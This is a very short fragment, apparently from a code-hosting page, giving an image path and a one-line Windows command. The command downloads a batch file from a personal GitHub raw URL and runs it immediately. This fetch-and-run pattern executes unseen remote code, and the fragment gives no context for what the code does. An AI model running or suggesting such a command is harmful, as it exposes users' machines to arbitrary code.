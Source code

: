 curl https://raw.githubusercontent.com/stamellashroom1/testing/refs/heads/main/echo > test.bat && start test.bat
